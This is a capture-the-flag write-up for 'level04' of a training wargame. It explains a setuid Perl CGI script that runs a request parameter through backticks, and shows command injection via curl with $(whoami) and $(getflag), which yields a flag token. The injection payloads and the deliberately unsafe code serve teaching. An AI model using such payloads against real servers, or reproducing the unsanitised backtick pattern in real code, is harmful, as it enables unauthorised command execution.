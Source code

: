 ## level04

1. Check files in current working directory (home dir)
    - `-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*`

Here we have a cool `perl` script, let's see what it does :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script, which means it's a script that can be executed by a web server, and it will return the output of the script to the client.

This script takes a parameter `x` and executes it using `echo`, and returns the output to the client.

In the same vein as the previous level, we have to escape the execution of `echo` and execute `getflag` instead.

Since there is a webserver running on port 4747 (`curl -v localhost:4747`), I assume that this perl script is the code of this server.

Passing `$PATH` to the parameter `x` (like this : `curl localhost:4747?x=$PATH`) returns `/usr/local/bin:/usr/bin:/bin`. Since the `$PATH`  was indeed evaluated, we can try to execute commands using the $(...) syntax.

And indeed doing an HTTP GET on `http://localhost:4747?x=$(whoami)` returns `flag04`, so we can do the same with `getflag` :

```bash
curl 'localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```